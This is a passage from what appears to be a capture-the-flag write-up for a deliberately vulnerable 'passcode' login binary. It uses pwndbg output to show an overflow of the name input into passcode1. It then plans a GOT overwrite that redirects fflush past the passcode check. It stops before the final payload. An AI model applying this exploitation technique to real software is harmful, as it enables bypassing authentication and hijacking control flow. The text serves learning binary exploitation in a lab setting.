 Using gdb I figured I can run the file with a breakpoint at login, passing a name of 100 different characters to see
But sadly I only affect passcode1
when passing 
`~}|{zyxwvutsrqponmlkjihgfedcba_^]\\[ZYXWVUTSRQPONMLKJIHGFEDCBA?>=<;:9876543210/.-,+*)('&$#"!AbCdEfGh`
using 
```shell
pwndbg> break login
Breakpoint 1 at 0x80491fb
pwndbg> run
Starting program: /home/passcode/passcode 
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".
Toddler's Secure Login System 1.1 beta.
enter you name : ~}|{zyxwvutsrqponmlkjihgfedcba_^]\\[ZYXWVUTSRQPONMLKJIHGFEDCBA?>=<;:9876543210/.-,+*)('&$#"!AbCdEfGh
Welcome ~}|{zyxwvutsrqponmlkjihgfedcba_^]\\[ZYXWVUTSRQPONMLKJIHGFEDCBA?>=<;:9876543210/.-,+*)('&$#"!AbCdEfGh!
```
using `x/s` to print values:
```shell
pwndbg> x/s $ebp - 0x10
0xffda69a8:	"EfGh"
pwndbg> x/s $ebp - 0xc
0xffda69ac:	""
```
We can easliy see we only affect passcode1 and not passcode2.
This is a major breakthrough tough.
Now we can write to name an address we'd like to write something to it.

Seeing how next `fflush` is called gave me an idea.
We can override the `fflush` GOT address with the happy flow address
so it will jump to there

`fflush` is defined not in this passcode.c but in an outer scope, that the linker knows how to reach.
then in the code we call `fflush@plt` -> thats not fflush but a function that jumps to fflush.
So we can override that one

The happy flow address we want is:

The fflush plt helps us get the GOT address we want to override:
```shell
0x0804923c <+70>:	call   0x8049060 <fflush@plt>
...
pwndbg> disass 0x8049060
Dump of assembler code for function fflush@plt:
   0x08049060 <+0>:	jmp    DWORD PTR ds:0x804c014 ; <-- this one (thats the address that stores the fflush address in GOT)
   0x08049066 <+6>:	push   0x10
   0x0804906b <+11>:	jmp    0x8049030
End of assembler dump.
```
Its value is currently:
```shell
pwndbg> print/x *0x804c014
$1 = 0x8049066
```
And we want to set its value to be:
```shell
   0x0804927d <+135>:	cmp    DWORD PTR [ebp-0x10],0x1e240
   0x08049284 <+142>:	jne    0x80492ce <login+216>
   0x08049286 <+144>:	cmp    DWORD PTR [ebp-0xc],0xcc07c9
   0x0804928d <+151>:	jne    0x80492ce <login+216>
   0x0804928f <+153>:	sub    esp,0xc ; <-- this one (after the if)
```